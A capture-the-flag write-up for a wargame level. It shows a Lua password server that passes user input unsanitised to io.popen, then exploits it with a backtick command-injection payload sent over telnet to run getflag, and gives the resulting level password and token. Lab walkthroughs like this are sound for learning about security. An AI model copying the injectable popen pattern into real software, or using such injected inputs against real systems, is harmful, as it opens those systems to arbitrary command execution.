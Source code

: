 `su level11 -> feulo4b72j7edeahuete3no7c`

We have a lua script:

```lua
$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

This script runs on port 5151.

Try to decode the hash, with www.dcode.fr/hash-function, and we get `NotSoEasy` so I think it's not this.

Try to inject a command in `io.popen`:

```bash
$ telnet 127.0.0.1 5151
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Password: `getflag > /tmp/flag`
Erf nope..
Connection closed by foreign host.
$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
